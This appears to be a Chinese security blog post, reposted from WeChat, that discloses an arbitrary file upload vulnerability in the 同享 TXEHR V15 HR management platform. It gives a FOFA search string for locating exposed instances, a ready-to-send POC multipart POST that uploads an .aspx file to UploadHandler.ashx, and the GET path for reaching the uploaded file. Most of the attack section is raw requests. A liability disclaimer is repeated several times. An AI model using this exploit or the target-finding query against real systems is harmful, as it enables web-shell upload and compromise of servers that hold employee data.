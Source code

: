 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzkzNzMxODkzMw==&mid=2247485936&idx=1&sn=c8db53c1a830e5151464c1c31ff2ffd7

#  同享人力管理管理平台 UploadHandler 任意文件上传漏洞  
 HK安全小屋   2025-06-13 14:06  
  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
漏洞描述：  
  
同享软件成立于1997年，运营中心位于东莞南城南新产业国际。专注研发和推广人力资源信息化产品，帮助企业构建统一的人力资源数智化平台，快速提高企业人才管理能力，提升人力资源管理效率，帮助员工快速成长，协助企业实现智慧决策。同享TXEHR V15人力管理管理平台UploadHandler存在任意文件上传漏洞。  
  
  
影响版本：  
  
同享人力管理管理平台  
  
  
FOFA:  

```
body=&#34;/Assistant/Default.aspx&#34;
```

  
  
POC：  

```
POST /Handler/UploadHandler.ashx?folder=Uploadfile2 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Content-Length: 183
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------123
Connection: close
-----------------------------123
Content-Disposition: form-data; name=&#34;Filedata&#34;; filename=&#34;12333333.aspx&#34;
Content-Type: text/plain
safdsfsfaa
-----------------------------123--
```

  
成功上传  
  
![](https://mmbiz.qpic.cn/mmbiz_png/A8qcyicQXeI03TkiaiaNDyHzjPWeHXGxX7dL7yJHUPJCtE7Dmh3J6s9V2pN9fv4zA7r2wuZ8gLLibTVNtnK2E1g4xQ/640?wx_fmt=png&from=appmsg "")  
  
访问如下路径  

```
GET /Handler/Uploadfile2/12333333.aspx HTTP/1.1
Host: 
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/A8qcyicQXeI03TkiaiaNDyHzjPWeHXGxX7dV3Yd8dADg0EIzKbeLbajutT3AIaDC6qvicx1rkMInwmQL28LrWeSotw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
--------  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
  
  
  
